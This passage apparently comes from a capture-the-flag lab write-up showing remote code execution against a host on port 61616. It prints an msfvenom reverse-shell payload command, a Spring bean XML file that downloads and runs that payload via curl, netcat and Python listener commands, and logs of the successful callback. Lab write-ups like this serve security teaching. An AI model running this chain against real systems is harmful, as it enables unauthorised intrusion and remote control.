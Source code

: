 We can now generate a reverse shell ELF file using `msfvenom`.

```
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.154 LPORT=9999 -f elf -o exploit.elf
```
- We have to modify the `poc.xml` file.
```xml title="poc.xml"
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>curl -s -o exploit.elf http://10.10.14.154:8001/exploit.elf; chmod +x ./exploit.elf; ./exploit.elf</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

Next we have to spin up a `python3` server on port 8001 and a `nc` listener on port 9999.

```
$ python3 -m http.server 8001
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...

$ nc -nlvp 9999
listening on [any] 9999 ...
```

This allows the POC to access the `exploit.elf` file on our machine.

Finally we have to run the `exploit.py` as follows:

```
$ python3 exploit.py -i 10.10.11.243 -p 61616 -u http://10.10.14.154:8001/poc.xml
```

After a few seconds we can see the GET requests on the `python3` server.

```
$ python3 -m http.server 8001
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
10.10.11.243 - - [10/Dec/2023 19:58:06] "GET /poc.xml HTTP/1.1" 200 -
10.10.11.243 - - [10/Dec/2023 19:58:07] "GET /poc.xml HTTP/1.1" 200 -
10.10.11.243 - - [10/Dec/2023 19:58:07] "GET /exploit.elf HTTP/1.1" 200 -
```

Let's check out our `nc` listener.

```
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.14.154] from (UNKNOWN) [10.10.11.243] 43728

```
